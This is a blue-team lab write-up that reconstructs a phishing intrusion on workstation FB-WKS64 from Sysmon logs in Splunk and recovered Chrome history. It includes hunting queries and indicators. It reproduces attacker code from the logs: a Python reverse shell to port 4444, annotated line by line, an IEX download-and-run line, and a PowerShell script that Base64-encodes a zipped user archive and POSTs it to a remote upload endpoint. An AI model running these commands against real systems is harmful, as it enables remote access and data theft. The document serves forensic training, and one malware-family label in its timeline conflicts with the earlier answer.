

# GhostConnect - TA583 Lab


# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/ghostconnect-ta583/](https://cyberdefenders.org/blueteam-ctf-challenges/ghostconnect-ta583/)

Suggested tools: DB Browser for SQLite, , Splunk, VirusTotal

Tactics: Initial Access, Execution, Discovery, Collection

# Scenario

On April 21, 2026, a FedBridge analyst grew suspicious after opening a link in their inbox and later ran a manual antivirus scan that flagged a persistence installer on their workstation. Initial triage revealed unexpected script execution, PowerShell activity, and outbound connections to external servers. You have been provided with endpoint telemetry and recovered browser artifacts. Reconstruct the full intrusion from the initial lure through data exfiltration, surfacing the operator's mistakes along the way.

Splunk Credentials:
- User: student
- Password: [REDACTED]

# Initial Access

**Q1**- The compromise began on a workstation belonging to `chriskarma`. What is the UTC timestamp of the first observed launch of the email client on FB-WKS64?

Answer: `2026-04-21 13:25`

Reason: Sysmon Event ID 1 (Process Create) logs on `FB-WKS64` were filtered for user `FEDBRIDGE\chriskarma` targeting the Outlook process. Three launches of `olk.exe` were recorded, with the earliest at `2026-04-21 13:25:12 UTC`, establishing the timeline anchor for initial access. All three executions share an identical command line with no injected parameters, consistent with a normal user interaction. The rapid restarts at `2026-04-21 13:28:06 UTC` and `2026-04-21 13:28:31 UTC`, only 25 seconds apart, suggest the user closed and reopened the client after an unexpected action, a pattern typical of phishing link or attachment interaction (T1566.001, T1566.002).

The install path under `C:\Program Files\WindowsApps\` confirms this is the Store-distributed new Outlook rather than legacy `OUTLOOK.EXE`, a distinction that affects child process spawning and artifact locations on disk.

```
index=* host="FB-WKS64" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
User="FEDBRIDGE\\chriskarma" EventDescription="Process Create" outlook
| table _time, CommandLine
| sort _time
```


**Q2**- The user clicked a link inside the email, which spawned a browser. What is the full URL of the delivery page the victim was directed to?

Answer: `hxxp://52.59.253.168/download_invitee.php`

Reason: Chrome's SQLite history database was recovered from the collected artifact image under `chriskarma`'s profile. The `urls` table recorded a visit to an IP-direct PHP page, consistent with a staging server hosting a malicious download and bypassing domain-based reputation filtering entirely (T1105). The delivery URL `hxxp://52[.]59[.]253[.]168/download_invitee.php` follows a pattern commonly used to serve payloads without registering a traceable domain, reducing the attacker's footprint against threat intelligence feeds.

```
Tool:     DB Browser for SQLite
Artifact: C:\Users\Administrator\Desktop\Start Here\Artifacts\FB-WKS64\FB-WKS64\C\Users\chriskarma\AppData\Local\Google\Chrome\User Data\Default\History
Table:    urls
URL:      hxxp://52[.]59[.]253[.]168/download_invitee.php
```

**Q3**- The lure page automatically downloaded a malicious script to the host. What is the full source URL it was originally downloaded from?

Answer: `hxxp://52.59.253.168/E-INVITE.vbs`

Reason: Sysmon Event ID 15 (`FileCreateStreamHash`) confirmed the delivery mechanism via the Mark-of-the-Web (MOTW) `Zone.Identifier` Alternate Data Stream (ADS) written to `E-INVITE.vbs` in `chriskarma`'s Downloads folder at `2026-04-21 13:38:44 UTC`. The stream recorded both the referrer and host URL, confirming the script was pulled silently from the same staging server with no user-initiated save dialog (T1105).

A `ZoneId` of `3` (Internet) indicates Windows flagged the file as originating from an untrusted external source, which would normally trigger MOTW-based warnings on execution.

```
EventID:      15 (FileCreateStreamHash)
TargetFile:   C:\Users\chriskarma\Downloads\E-INVITE.vbs:Zone.Identifier
ZoneId:       3 (Internet)
ReferrerUrl:  hxxp://52[.]59[.]253[.]168/download_invitee.php
HostUrl:      hxxp://52[.]59[.]253[.]168/E-INVITE.vbs
Timestamp:    2026-04-21 13:38:44 UTC
```

## Mark of the Web MOTW

Mark-of-the-Web (MOTW) is a Windows security mechanism that tags files downloaded from the internet by writing a `Zone.Identifier` ADS (Alternate Data Streams, a hidden feature of the NTFS file system that allow files to contain multiple, separate streams of data) to the file. The stream records where the file came from, including the host and referrer URLs, and assigns a `ZoneId` integer indicating trust level.

Zone values map as follows: `0` = Local Machine, `1` = Local Intranet, `2` = Trusted Sites, `3` = Internet, `4` = Restricted Sites. A `ZoneId` of `3` is the most common value seen on downloaded malware.

From a defensive standpoint, MOTW triggers SmartScreen warnings, Office macro blocking, and Protected View on tagged files. Attackers actively work to strip or bypass it, for example by delivering payloads inside container formats like `.iso`, `.zip` (pre-Windows 11 patch), or `.7z` files that do not propagate the tag to their contents, a technique tracked under T1553.005.

From a forensic standpoint, the `Zone.Identifier` stream is a high-value artifact. Even after execution, the stream often persists on disk and records the exact delivery URL and referrer, as seen with `E-INVITE.vbs`. Sysmon Event ID 15 captures this stream at write time, making it one of the cleaner ways to recover delivery infrastructure URLs without relying solely on network logs.

```powershell
# Windows: read the Zone.Identifier ADS directly
Get-Content "E-INVITE.vbs:Zone.Identifier"
```

```bash
# Linux: read ADS from an NTFS-mounted volume using getfattr
getfattr -n user.Zone.Identifier /mnt/ntfs/Users/chriskarma/Downloads/E-INVITE.vbs
```

# Execution

**Q4**- Once executed, the dropped script orchestrated the next stage by spawning multiple child processes within seconds. List the two children of wscript.exe in chronological order.

Answer: `powershell.exe`, `chrome.exe`

Reason: After `E-INVITE.vbs` was executed by `wscript.exe`, Sysmon Event ID 1 (Process Create) records show two child processes spawned within 11 seconds: `powershell.exe` at `2026-04-21 13:38:53 UTC`, then `chrome.exe` at `2026-04-21 13:39:04 UTC`. This is a classic VBS lure pattern where PowerShell executes the next-stage payload (T1059.001) while Chrome opens a decoy page to keep the victim unsuspicious, consistent with T1204.002 (User Execution: Malicious File).

The `wscript.exe` parent relationship is the key forensic link, confirming both processes were scripted rather than user-initiated.

```
index=* host="FB-WKS64"  source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" "wscript.exe" parent_process_exec="wscript.exe"
|table _time,Image,parent_process_exec
```


**Q5**- The next-stage payload was retrieved from a legitimate cloud-hosting service. What is the file ID embedded in that download URL?

Answer: `1Yqzl-L-1FGWm4iOwieRFv9zr0urEEGWR`

Reason: A second Sysmon Event ID 15 fired at `2026-04-21 13:39:32 UTC`, just 28 seconds after `wscript.exe` spawned Chrome, capturing the MOTW stream written to `FileServer.7z` in `chriskarma`'s Downloads folder. The payload was hosted on `drive.usercontent.google[.]com`, a legitimate cloud service abused deliberately to bypass URL reputation filtering (T1102, T1105). The absence of a `ReferrerUrl` confirms Chrome was scripted to fetch the URL directly rather than navigating from a referring page.

The embedded Google Drive file ID `1Yqzl-L-1FGWm4iOwieRFv9zr0urEEGWR` can be used to request a takedown and to pivot across other investigations where the same file was distributed.

```
EventID:      15 (FileCreateStreamHash)
Timestamp:    2026-04-21 13:39:32 UTC
TargetFile:   C:\Users\chriskarma\Downloads\FileServer.7z:Zone.Identifier
ZoneId:       3 (Internet)
HostUrl:      hxxps://drive.usercontent.google[.]com/download?id=1Yqzl-L-1FGWm4iOwieRFv9zr0urEEGWR&export=download
File ID:      1Yqzl-L-1FGWm4iOwieRFv9zr0urEEGWR
SHA256:       B6415213EAC375FAF6395355A178457CF8863C2AC68B673A5D1D547420BC1384
```

**Q6**- Chrome recorded the rendered titles of the phishing lure page and the cloud-storage interstitial returned when the provider's malware scanner flagged the payload. Both are durable hunting pivots for finding other victims. What are the two page titles? (lure title, then cloud-storage title)

Answer: `Secure Document Verification`, `Google Drive - Infected file`

Reason: Both page titles were recovered from the `urls` table in Chrome's SQLite history database. The lure page at `hxxp://52[.]59[.]253[.]168/download_invitee.php` presented the title "Secure Document Verification", a social engineering string designed to appear legitimate (T1566.002). The Google Drive interstitial titled "`Google Drive - Infected file`" is the warning page Google's built-in scanner serves when a flagged file is requested, confirming the payload was already known-malicious at delivery time yet the scripted download proceeded regardless. Both titles are stable hunting pivots across the estate. Even if the attacker rotates IPs or file IDs, searching Chrome history for either string can surface additional victims.

Note: An interstitial is a page that appears between where you were and where you're going -- an interruption page. In this context: when Google's scanner flags a file as malicious, instead of immediately downloading it, Google serves a warning page first that says "this file may be harmful" with a button to proceed anyway. That warning screen sitting between the download request and the actual file delivery is the *interstitial*. You see the same concept with:

- Browser "this site may harm your computer" warnings
- Cookie consent popups before a webpage loads
- Age verification screens before adult content

```
Tool:     DB Browser for SQLite
Artifact: ..\FB-WKS64\C\Users\chriskarma\AppData\Local\Google\Chrome\User Data\Default\History
Table:    urls

id  url                                                       title                         last_visit_time
31  hxxp://52[.]59[.]253[.]168/download_invitee.php           Secure Document Verification  13421256815058448
33  hxxps://drive.google[.]com/uc?export=download&id=...      Google Drive - Infected file  13421252352206602
```

**Q7**- After extracting the second-stage archive, the user double-clicked the loader executable. What is the full file path of the first-stage loader?

Answer: `C:\Users\chriskarma\Downloads\FileServer\FileServer.exe`

Reason: Sysmon Event ID 11 (FileCreate) recorded `7zG.exe` writing `FileServer.exe` to disk at `2026-04-21 13:39:46 UTC`, just 14 seconds after `FileServer.7z` landed in the Downloads folder. The user then double-clicked the extracted executable, making `C:\Users\chriskarma\Downloads\FileServer\FileServer.exe` the first-stage loader of the second payload chain (T1204.002, T1059). The use of a password-protected or plain archive to wrap the executable is a common technique to defeat email gateway scanning and delay MOTW propagation to the extracted contents (T1027.013).

```
index=* host="FB-WKS64" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=11
| table _time, Image, TargetFilename
| sort _time
```


**Q8**- Among the loader's discovery commands, one queried a specific scheduled task by name, likely an OPSEC check to verify a prior footprint. What task name was queried?

Answer: `vulntask`

Reason: `FileServer.exe` spawned `schtasks.exe` at `2026-04-21 15:18:17 UTC` with the `/query /tn vulntask` flags, querying a specific task by name rather than enumerating all tasks. This targeted check is consistent with an OPSEC verification that a prior persistence footprint is already in place before attempting re-installation (T1053.005). The task name `vulntask` is attacker-controlled and non-default, suggesting it was created during an earlier access or staging phase.

Two details stand out: the working directory had already shifted to `C:\Users\chriskarma\AppData\Roaming\`, and the query occurred roughly 99 minutes after `FileServer.exe` first landed on disk, implying the loader had been operating quietly in the background before this discovery phase began.

```
index=* host="FB-WKS64" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 schtasks
| table _time, Image, CommandLine

ParentImage:       C:\Users\chriskarma\Downloads\FileServer\FileServer.exe
CurrentDirectory:  C:\Users\chriskarma\AppData\Roaming\
```

**Q9**- The loader inspected the ACL on a single file, suggesting preparation for a hijack or overwrite. What is the full path of that file?

Answer: `c:\tasks\schtask.bat`

Reason: Two minutes after querying `vulntask`, `FileServer.exe` spawned `icacls.exe` against `c:\tasks\schtask.bat` with no modification flags, confirming this was a read-only Access Control List (ACL) check rather than a permission change. The sequence is a textbook scheduled task hijack pattern: confirm the task exists, then verify whether the script it calls is writable by the current user (T1222.001, T1053.005). If `chriskarma` has write access to `schtask.bat`, the attacker can overwrite its contents with a malicious command and let the scheduler execute it, achieving persistence without creating any new tasks.

The non-standard path `c:\tasks\` reinforces that `vulntask` and its associated script were pre-positioned during an earlier access phase rather than created organically.

```
index=* host="FB-WKS64" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 FileServer icacls
| table _time, Image, CommandLine

<TimeCreated SystemTime='2026-04-21T15:20:23.8596220Z'/>
<Data Name='CommandLine'>"icacls" c:\tasks\schtask.bat</Data>
<Data Name='ParentCommandLine'>"C:\Users\chriskarma\Downloads\FileServer\FileServer.exe" </Data>
```

**Q10**- AD enumeration was performed via a wrapper script that was iteratively re-staged in two different filesystem locations during the operation. List both full paths of `adf.bat` in the order they appeared.

Answer: `C:\Windows\Temp\adf.bat`, `C:\Users\chriskarma\AppData\Roaming\adf.bat`

Reason: `FileServer.exe` staged `adf.bat` across two locations: first in `C:\Windows\Temp\` at `2026-04-21 15:09:15 UTC`, then re-staged to `C:\Users\chriskarma\AppData\Roaming\` at `2026-04-21 15:13:50 UTC`. Moving from a world-writable temp directory to a user-persistent AppData location is a deliberate OPSEC move, as `C:\Windows\Temp\` is frequently cleared by defenders while AppData survives reboots and cleanup (T1059.003).

The file was constructed iteratively by echoing Lightweight Directory Access Protocol (LDAP) query commands into the batch file via `cmd /c echo`, with `AF.exe` as the underlying enumeration binary, almost certainly AdFind, a legitimate Active Directory (AD) query tool widely abused for domain reconnaissance (T1087.002, T1069.002). The filter `objectcategory=group` confirms group enumeration was among the AD objects targeted.

```
index=* host="FB-WKS64" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 "adf.bat"
| table _time, process_current_directory, Image
| dedup process_current_directory

CommandLine:  cmd /c "echo AF.exe -f (objectcategory=group) > groups.txt >> C:\Users\chriskarma\AppData\Roaming\adf.bat"
ParentImage:  C:\Users\chriskarma\Downloads\FileServer\FileServer.exe
```


**Q11**- The wrapper script queried four distinct Active Directory object types using LDAP `objectcategory` filters. List the four `objectcategory` values in the order the assembly commands ran.

Answer: `computer`, `person`, `organizationalUnit`, `group`

Reason: `FileServer.exe` assembled `adf.bat` iteratively over four minutes by echoing AdFind (`AF.exe`) commands into the script one line at a time, each targeting a distinct LDAP `objectcategory`. The first line used `>` to create the file at `2026-04-21 15:09:15 UTC`, with all subsequent lines appended using `>>`. Together the four queries map the full AD estate, giving the attacker everything needed for lateral movement targeting and privilege escalation planning (T1069.002, T1087.002, T1482).

```
index=* host="FB-WKS64" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 "adf.bat"
| table _time, CommandLine
| rex field=CommandLine "=(?<object_category>[^)]+)\)"
| dedup object_category
```


# Command and Control

**Q12**- After execution, the first-stage loader retrieved and ran a second-stage implant. What is the full file path where it was written to disk?

Answer: `C:\Users\chriskarma\AppData\Local\FileR.exe`

Reason: Sysmon Event ID 11 (`FileCreate`) filtered for `FileServer.exe` reveals three artifacts in chronological order. `FileR.exe` landed in `C:\Users\chriskarma\AppData\Local\` at `2026-04-21 14:04:52 UTC`, nearly 25 minutes before `AdFind` (`AF.exe`) was dropped to `AppData\Roaming\` at `14:32:41 UTC`, followed by a transient PowerShell policy test file at `14:52:50 UTC`. The implant-first sequence confirms `FileR.exe` was established and likely beaconing before any discovery activity began, consistent with a command and control (C2)-first, enumerate-second operator pattern (T1105, T1071).

The `AppData\Local\` path requires no elevated privileges and is excluded from many default antivirus (AV) scan paths, making it a deliberate staging choice.

```
index=* host="FB-WKS64" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=11 Image=*FileServer*
| table _time, TargetFilename, Image
| sort _time
```


**Q13**- What is the SHA256 hash of the second-stage loader?

Answer: `8BAB731AC2F7D015B81C2002F518FFF06EA751A34A711907E80E98CF70B557DB`

Reason: The SHA256 hash of `FileR.exe` was pulled from the `Hashes` field of its Sysmon Event ID 1 (Process Create) record. Three details beyond the hash itself are high-confidence malware indicators. All Portable Executable (PE) metadata fields are blank, where legitimate Windows binaries always populate these. The Import Hash (`IMPHASH`) is all zeros, meaning the binary has no static import table and resolves Windows APIs dynamically at runtime, a hallmark of packed or shellcode-based implants (T1027). Sysmon itself tagged the event as T1036 (Masquerading), flagging the filename as suspicious.

The zeroed `IMPHASH` is particularly significant forensically: it eliminates a common pivot point used to cluster malware families, suggesting the packer or builder was configured specifically to defeat hash-based detection and correlation.

```
index=* host="FB-WKS64" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 FileR.exe

_time:        2026-04-21 14:52:52 UTC
Image:        C:\Users\chriskarma\AppData\Local\FileR.exe
SHA256:       8BAB731AC2F7D015B81C2002F518FFF06EA751A34A711907E80E98CF70B557DB
MD5:          53B705A1FF29B71C0872EE7E969BFAF4
IMPHASH:      00000000000000000000000000000000
PE metadata:  all blank
ParentImage:  C:\Users\chriskarma\Downloads\FileServer\FileServer.exe
MITRE:        T1036, T1027
```

## Empty IMPHASH Malicious Indicator

The Import Hash (IMPHASH) is a fingerprint derived from a PE binary's static import table, specifically the ordered list of Dynamic Link Libraries (DLLs) and functions the binary declares it needs at load time. VirusTotal and most threat intel platforms compute it at submission, making it a reliable cluster pivot: two binaries built from the same codebase with the same linker settings will share an IMPHASH even if their content hash differs.

When the IMPHASH is all zeros, the binary has no static import table at all. This means it resolves Windows APIs at runtime using one of two techniques: calling `LoadLibrary` and `GetProcAddress` directly to pull function addresses dynamically, or decrypting an embedded import table from within a packed payload stub. Either way, the operating system never sees a declared dependency list, and static analysis tools lose their primary triage signal.

From a detection standpoint, a zeroed IMPHASH combined with blank PE metadata is a high-confidence packer indicator. The binary is almost certainly a wrapper whose job is to unpack and execute a second stage in memory, leaving minimal static artifacts for scanners to match against. This pattern is tracked under T1027 (Obfuscated Files or Information) and T1620 (Reflective Code Loading).

From a hunting standpoint, querying Sysmon Event ID 1 records for `IMPHASH=00000000000000000000000000000000` across an estate is a low-noise, high-yield detection rule. Legitimate software almost never produces a zeroed `IMPHASH`, so any hit warrants immediate triage.

```
index=* source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1
| rex field=Hashes "IMPHASH=(?<imphash>[^,]+)"
| where imphash="00000000000000000000000000000000"
| table _time, host, Image, SHA256, imphash
```

**Q14**- Threat intel links the second-stage loader to a known malware family. What is the family name and its first-seen-in-the-wild date?

Answer: `SilentConnect`, `2026-03-10 18:48:19`

Reason: VirusTotal identifies `FileR.exe` as the `SILENTCONNECT` family, a .NET Microsoft Intermediate Language (MSIL)-based implant with 51/71 vendor detections and a community score of `-54`. The first submission date of `2026-03-10 18:48:19 UTC`, approximately six weeks before this incident, confirms the sample was pre-staged and reused across campaigns rather than compiled fresh (T1105).

The PE creation timestamp of `2101-06-12` is deliberately falsified to defeat timeline forensics (T1070.006). This is a common technique where attackers set the compile timestamp decades or centuries into the future, invalidating it as a triage anchor without removing it entirely.

```
Hash:          8BAB731AC2F7D015B81C2002F518FFF06EA751A34A711907E80E98CF70B557DB
Family:        SILENTCONNECT
Detections:    51/71
Community:     -54
First seen:    2026-03-10 18:48:19 UTC
PE timestamp:  2101-06-12 (falsified)
MITRE:         T1070.006
VT reference:  https://www.virustotal.com/gui/file/8bab731ac2f7d015b81c2002f518fff06ea751a34a711907e80e98cf70b557db/detection
```

**Q15**- One of loaders retrieved an additional payload from a secondary C2 server distinct from the delivery infrastructure. What is the complete URL being fetched?

Answer: `hxxp://34.228.194.206:80/f`

Reason: Three PowerShell processes spawned by `FileServer.exe` in a six-minute window reveal deliberate sequencing. Defender exclusions were added for `C:\Temp` and `C:\Windows\Temp` at `2026-04-21 15:34:54 UTC` and `2026-04-21 15:41:37 UTC` respectively, clearing a safe landing zone before the payload fetch (T1562.001). At `2026-04-21 15:47:31 UTC`, a fileless execution chain fired: PowerShell with `-nop -w hidden` downloaded a script directly into memory from `hxxp://34[.]228[.]194[.]206:80/f` and executed it via `IEX` (Invoke-Expression), leaving no file on disk (T1059.001, T1105).

The secondary C2 address `34[.]228[.]194[.]206` is entirely distinct from the delivery server `52[.]59[.]253[.]168`, confirming separate infrastructure for post-exploitation staging. The single-character path `/f` is a hallmark of Metasploit and similar frameworks serving staged payloads.

```
index=* host="FB-WKS64" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" ParentImage="*FileServer.exe*"
| table _time, CommandLine, Image, ParentImage
```


**Q16**- A Python reverse shell to the primary C2 reveals the operator's source template, the script ends by spawning a non-native shell binary that wouldn't even resolve on Windows. What is the path of the shell binary in the subprocess.call list?

Answer: `/bin/sh`

Reason: At `2026-04-21 16:29:11 UTC`, `cmd.exe` executed a Python reverse shell one-liner connecting back to `52[.]59[.]253[.]168` on port `4444`, the default Metasploit listener port, confirming the delivery server doubles as C2 infrastructure (T1059.006, T1095). The script redirects `stdin`/`stdout`/`stderr` over the socket via `os.dup2`, then calls `subprocess.call(["/bin/sh", "-i"])`, a path that does not exist on Windows.

The `/bin/sh` reference is a verbatim Linux reverse shell template pasted without adaptation, an OPSEC mistake that reveals the operator works primarily in Linux environments. The shell spawn would silently fail on this Windows host while the socket redirection still executed.

```
index=* host="FB-WKS64" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
"52.59.253.168" python
| table _time, CommandLine, Image
```

```
_time:        2026-04-21 16:29:11 UTC
Image:        C:\Windows\System32\cmd.exe
C2:           52[.]59[.]253[.]168:4444
Shell binary: /bin/sh  (Linux path, unresolvable on Windows)

CommandLine:
cmd.exe /C python -c 'import socket,subprocess,os;s=socket.socket(...);s.connect(("52[.]59[.]253[.]168",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Reverse shell Python script details:

```python
import socket, subprocess, os

# create a standard TCP socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# connect back to the attacker's C2 listener
s.connect(("52[.]59[.]253[.]168", 4444))

# redirect stdin (0) to the socket — attacker's input becomes the process input
os.dup2(s.fileno(), 0)
# redirect stdout (1) to the socket — command output goes back to attacker
os.dup2(s.fileno(), 1)
# redirect stderr (2) to the socket — error messages also go back to attacker
os.dup2(s.fileno(), 2)

# spawn an interactive shell — /bin/sh is a Linux path, fails silently on Windows
# on Linux this would hand the attacker a live shell over the socket
p = subprocess.call(["/bin/sh", "-i"])
```

# Persistence

**Q17**- A persistence installer was dropped to the victim's Downloads folder well before the user was induced to execute it. What is the UTC timestamp when this MSI file was first written to disk?

Answer: `2026-04-21 16:33`

Reason: PowerShell wrote `0x001900000002b4b5-36.msi` to `chriskarma`'s Downloads folder at `2026-04-21 16:33:24 UTC`, captured by Sysmon Event ID 11 (`FileCreate`). The hex-encoded filename mimics Windows Installer-generated temp file naming to blend in as a legitimate installation artifact (T1036). A paired Event ID 11 and Event ID 26 (`FileDeleteDetected`) at `2026-04-21 16:35:48 UTC` indicates the file was silently overwritten two minutes later, consistent with a C2-directed re-stage to update the payload before execution (T1547, T1218.007).

The Microsoft Software Installer (MSI) was pre-positioned in Downloads before any user interaction, consistent with a staged delivery model where the operator places the payload then socially engineers execution separately.

Note: Event ID 26 (`FileDeleteDetected`) was added in Sysmon v11 (2019). If the Sysmon schema version on that host predates the event definition, or if the Splunk Sysmon add-on / TA (Technology Add-on) hasn't been updated to include the Event ID 26 field mappings, Splunk will ingest the raw XML fine but render the description as Unknown because it has no lookup entry for that `EventCode`.

```
index=* host="FB-WKS64" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" downloads msi
| table _time, EventCode, Image, TargetFilename
```


# Collection

**Q18**- The operator's first attempt to archive user data referenced source paths that don't exist on this host,  a clear sign of script-template reuse from a previous engagement. What username appears in those non-existent paths?

Answer: `jdoe`

Reason: The `IEX` payload fetched from `hxxp://34[.]228[.]194[.]206:80/f` executed a `Compress-Archive` command at `2026-04-21 16:29:43 UTC`, just 32 seconds after the reverse shell fired, targeting `C:\Users\jdoe\Documents` and `C:\Users\jdoe\Desktop`, paths that do not exist on this host where the victim is `chriskarma`. The hardcoded username `jdoe` is unambiguous evidence of script-template reuse from a prior engagement where the operator failed to parameterize the username (T1074.001).

The archive destination `C:\Windows\Temp\~sys_upd.zip` is disguised as a system update artifact and lands precisely in the Defender exclusion path added earlier, confirming those exclusions were pre-positioned for this collection step (T1560.001). The `Compress-Archive` call would silently fail or produce an empty archive since the source paths resolve to nothing.

```
index=* host="FB-WKS64" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 zip parent_process_name="powershell.exe"
| table _time, CommandLine, ParentCommandLine
```

```
_time:          2026-04-21 16:29:43 UTC
CommandLine:    cmd.exe /C powershell -Command "Compress-Archive
                -Path @('C:\Users\jdoe\Documents','C:\Users\jdoe\Desktop')
                -DestinationPath 'C:\Windows\Temp\~sys_upd.zip' -Force"
ParentImage:    powershell.exe (IEX from hxxp://34[.]228[.]194[.]206:80/f)
Ghost user:     jdoe
Staging path:   C:\Windows\Temp\~sys_upd.zip
```

**Q19**- Before exfiltrating data, the attacker staged the victim's files by compressing two directories into a single archive. What is the full file path of the archive created during this staging step? 

Answer: `C:\Windows\Temp\~sys_upd.zip`

Reason: Forty-three seconds after the failed `jdoe` attempt, the operator re-issued the identical `Compress-Archive` command at `2026-04-21 16:30:26 UTC` with the corrected username `chriskarma`, confirming real-time interactive C2 access rather than automation. The operator observed the failure and manually corrected the victim path, a clear indicator of a hands-on-keyboard operator (T1560.001, T1074.001).

The archive destination `C:\Windows\Temp\~sys_upd.zip` reuses the same Defender-excluded staging path prepared earlier, and the `-Force` flag ensures silent overwrite of any prior failed artifact. The filename mimics a system update temporary file to blend into `C:\Windows\Temp\` noise (T1036).

```
index=* host="FB-WKS64" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 "Compress-Archive" parent_process_name="powershell.exe"
| table _time, CommandLine
```

```
_time:    2026-04-21 16:30:26 UTC (+43s after failed jdoe attempt)
Archive:  C:\Windows\Temp\~sys_upd.zip
Sources:  C:\Users\chriskarma\Documents
          C:\Users\chriskarma\Desktop
Parent:   powershell.exe (IEX from hxxp://34[.]228[.]194[.]206:80/f)
```

# Exfiltration

Q20- The operator's PowerShell pipeline transformed the staged archive's bytes into a transmission-safe encoding before POSTing them out over HTTPS. What's the encoding scheme used and the full destination URL?

Answer: `Base64`, `hxxps://52.59.253.168/upload`

Reason: At `2026-04-21 16:31:29 UTC`, 63 seconds after staging the archive, the `IEX` payload issued the final exfiltration command: a three-step pipeline that read `~sys_upd.zip` as raw bytes, encoded them as Base64 via `[Convert]::ToBase64String()`, then POSTed the result to `hxxps://52[.]59[.]253[.]168/upload` (T1041, T1132.001). Base64 serves dual purpose: it makes binary data safe for HTTP transport and provides light obfuscation against content inspection.

Critically, exfiltration routes back over HTTPS to the same IP that hosted the phishing lure, meaning the payload is encrypted in transit and invisible to network defenders without SSL inspection. The `-UseBasicParsing` flag bypasses the Internet Explorer (IE) COM engine dependency, ensuring execution on any Windows host regardless of browser configuration.

```
index=* host="FB-WKS64" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 zip parent_process_name="powershell.exe"
| table _time, CommandLine

_time:   2026-04-21 16:31:29 UTC
Parent:  powershell.exe (IEX from hxxp://34[.]228[.]194[.]206:80/f)
```

```powershell
# Step 1: read archive as raw bytes
$bytes = [System.IO.File]::ReadAllBytes('C:\Windows\Temp\~sys_upd.zip')

# Step 2: encode as Base64 for HTTP-safe transport
$b64 = [Convert]::ToBase64String($bytes)

# Step 3: POST encoded payload to C2 upload endpoint
Invoke-WebRequest -Uri 'https://52[.]59[.]253[.]168/upload' `
  -Method POST -Body $b64 -ContentType 'text/plain' -UseBasicParsing
```

# Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| `2026-04-21 13:25:12` | Initial Access | `olk.exe` opened by `chriskarma` on `FB-WKS64` | T1566.002 |
| `2026-04-21 13:38:44` | Initial Access | Chrome visits lure page `hxxp://52[.]59[.]253[.]168/download_invitee.php` | T1189 |
| `2026-04-21 13:38:44` | Initial Access | `E-INVITE.vbs` downloaded; MOTW `Zone.Identifier` ADS written | T1189 |
| `2026-04-21 13:38:53` | Execution | `wscript.exe` executes `E-INVITE.vbs`, spawns `powershell.exe` | T1059.005 |
| `2026-04-21 13:39:04` | Execution | `wscript.exe` spawns `chrome.exe` as decoy and download trigger | T1059.005 |
| `2026-04-21 13:39:32` | Execution | Chrome downloads `FileServer.7z` from Google Drive; MOTW Event ID 15 recorded | T1105, T1102 |
| `2026-04-21 13:39:46` | Execution | `7zG.exe` extracts `FileServer.exe` from `FileServer.7z` | T1105 |
| `2026-04-21 14:04:52` | Execution | `FileServer.exe` drops `FileR.exe` to `AppData\Local\` | T1105 |
| `2026-04-21 14:32:41` | Execution | `FileServer.exe` drops `AF.exe` to `AppData\Roaming\` | T1105 |
| `2026-04-21 14:52:52` | Execution | `FileR.exe` launched; MSIL.AsyncRAT C2 established | T1036, T1219 |
| `2026-04-21 15:09:15` | Discovery | `adf.bat` staged in `C:\Windows\Temp\`; computer enumeration echoed | T1018, T1059.003 |
| `2026-04-21 15:12:48` | Discovery | person enumeration appended to `adf.bat` | T1087.002 |
| `2026-04-21 15:13:19` | Discovery | organizationalUnit enumeration appended to `adf.bat` | T1069.002 |
| `2026-04-21 15:13:50` | Discovery | group enumeration appended; `adf.bat` re-staged to `AppData\Roaming\` | T1069.002 |
| `2026-04-21 15:18:17` | Discovery | `schtasks /query /tn vulntask` OPSEC check | T1053.005 |
| `2026-04-21 15:20:23` | Discovery | `icacls c:\tasks\schtask.bat` ACL check for hijack prep | T1222.001 |
| `2026-04-21 15:34:54` | Defense Evasion | Defender exclusion added for `C:\Temp` | T1562.001 |
| `2026-04-21 15:41:37` | Defense Evasion | Defender exclusion added for `C:\Windows\Temp` | T1562.001 |
| `2026-04-21 15:47:31` | Execution | IEX fetches and runs payload from `hxxp://34[.]228[.]194[.]206:80/f` | T1059.001, T1105 |
